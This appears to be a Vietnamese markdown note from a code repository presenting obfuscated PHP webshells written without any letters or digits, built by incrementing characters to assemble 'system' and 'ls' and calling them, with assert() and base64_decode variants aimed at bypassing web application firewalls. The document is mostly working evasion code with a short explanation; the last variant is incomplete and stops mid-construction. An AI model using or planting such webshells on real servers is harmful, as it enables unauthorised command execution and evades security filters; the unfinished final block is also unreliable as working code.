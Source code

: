 # PHP webshell with no alphanumeric

Mục tiêu là tạo ra hàm system('ls') với không kí tự chữ cái nào

```php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$____.=$__;

$___($____);
?>
```

- Tạo ra webshell bằng cách cộng kí tự và tạo ra chuỗi
- Giải thích cơ chế: 
    1, Tận dụng chuỗi ký tự ASCII:
      - Biến $__ bắt đầu với giá trị ASCII của ký tự đầu tiên ($_[3]) của chuỗi rỗng, sau đó được tăng dần bằng toán tử tăng ++ để đạt được các ký tự mong muốn (s, y, s, t, e, m và l, s).
    2, Ghép nối chuỗi để tạo hàm và tham số:
      - Biến $___ được xây dựng bằng cách ghép nối các ký tự để tạo thành hàm system.
      - Biến $____ được ghép nối các ký tự để tạo ra tham số ls.
    3, Gọi hàm:
      - Cuối cùng, $___($_) gọi hàm system với tham số là chuỗi ls, thực thi lệnh ls trên hệ thống.
- Tài liệu tham khảo: [https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)


<!-- Webshell with assert -->
- assert(system(ls))

```php
<?php 
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;

$____="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$____.=$__;

$_____="";
$__=$_;
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$_____.=$__;
$__ = $_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$_____.=$__;

$______="";
$__=$_;
$__++;$__++;$__++; 
$______.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$______.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$______.=$__;

$_____($___($____));
?>
```
<!-- Webshell with assert -->
- assert(base64_decode('c3lzdGVtKCdscycp'))

```php
$_=[];
$_=@"$_";
$_=$_[3];
$___="";
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;

$____="";
$__=$_;
$__++;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$____.=$__;

$_____="_";
$__=$_;
$__++;$__++;$__++;
$_____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$_____.=$__;
$__=$_;
$__++;$__++;
$_____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$_____.=$__;
$__=$_;
$__++;$__++;$__++;
$_____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;
$_____.=$__;

$______="'";
$__=$_;
$__++;$__++;
$______.=$__;
$__=$_;
$______.=3;

?>
```